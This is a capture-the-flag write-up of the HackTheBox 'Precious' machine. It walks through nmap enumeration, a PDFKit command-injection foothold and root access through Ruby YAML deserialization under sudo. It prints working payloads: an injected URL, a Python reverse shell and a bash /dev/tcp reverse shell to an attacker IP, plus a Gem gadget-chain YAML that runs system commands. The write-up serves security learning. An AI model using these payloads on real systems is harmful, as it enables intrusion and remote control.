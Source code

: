 ```yaml
---
title: "HackTheBox - Precious"
author: Nasrallah
description: ""
date: 2023-02-23 00:00:00 +0000
categories : [HackTheBox, Machines]
tags: [hackthebox, linux, easy, ruby, yaml, rce, sudo, cve]
img_path: /assets/img/hackthebox/machines/precious
---
```


<div align="center"> <script src="https://www.hackthebox.eu/badge/565048"></script> </div>

---


# **Description**

Hello hackers, I hope you are doing well. We are doing [Precious](https://app.hackthebox.com/machines/) from [HackTheBox](https://www.hackthebox.com).

# **Enumeration**

## nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.


```terminal
Nmap scan report for 10.10.11.189
Host is up (0.33s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 845e13a8e31e20661d235550f63047d2 (RSA)
|   256 a2ef7b9665ce4161c467ee4e96c7c892 (ECDSA)
|_  256 33053dcd7ab798458239e7ae3c91a658 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-title: Did not follow redirect to http://precious.htb/
|_http-server-header: nginx/1.18.0
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We have an OpenSSH running on port 22 and Nginx on port 80.

## Web

From the nmap scan we see that we get redirected to precious.htb, os let's add it to /etc/hosts and navigate to the web page.

![](1.png)

Here we have a web page convertor where we give it a url and returns a pdf.

I created file and served it with python3 http server and submitted the url.

![](2.png)

We got back a pdf.

![](3.png)

Inspecting the pdf using `exiftool` we manage to find something interesting.

![](4.png)

The pdf was generated by PDFkit v0.8.6.

# **Foothold**

After some research we find that this version of PDFkit is vulnerable to [command injection](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795).

The vulnerability relies when the application tries to render a URL that contains query string parameters with user input like the following:

```
http://x.x.x.x/?hack=%20`id`
```

Let's try submitting the above url.

![](5.png)

We got command execution, now let's get a reverse shell by replacing `id` with the following python3 reverse shell.

```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.17.90",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

![](6.png)


# **Privilege Escalation**

Checking ruby's home directory, we find a hidden file called `.bundle`, and inside it we find some credentials.

![](7.png)

Let's ssh with our new user.

Checking Henry's privileges, we see that we can run a ruby script as sudo.

```terminal
henry@precious:~$ sudo -l
Matching Defaults entries for henry on precious:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```

The ruby file has the following code.

```ruby
# Compare installed dependencies with those specified in "dependencies.yml"
require "yaml"
require 'rubygems'

# TODO: update versions automatically
def update_gems()
end

def list_from_file
    YAML.load(File.read("dependencies.yml"))
end

def list_local_gems
    Gem::Specification.sort_by{ |g| [g.name.downcase, g.version] }.map{|g| [g.name, g.version.to_s]}
end

gems_file = list_from_file
gems_local = list_local_gems

gems_file.each do |file_name, file_version|
    gems_local.each do |local_name, local_version|
        if(file_name == local_name)
            if(file_version != local_version)
                puts "Installed version differs from the one specified in file: " + local_name
            else
                puts "Installed version is equals to the one specified in file: " + local_name
            end
        end
    end
end
```

When the script is run, it loads a file called `dependencies.yml` using `YAML.load` then reads it.

Searching for ruby yaml injection, i found this [article](https://blog.stratumsecurity.com/2021/06/09/blind-remote-code-execution-through-yaml-deserialization/) that showcases a Code Execution through YAML Deserialization.

The code used to get the command execution is the following.

```yaml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: "id"
         method_id: :resolve
```

Since the the script does not loads the `dependencies.yml` from where ever you run the script, we can create the file with the malicious code above to get command execution.

![](8.png)

Great! We got command execution, now let's get a reverse shell.

```yaml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: "bash -c 'bash -i >& /dev/tcp/10.10.17.90/9001 0>&1'"
         method_id: :resolve
```

![](9.png)

And just like that we got root.

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).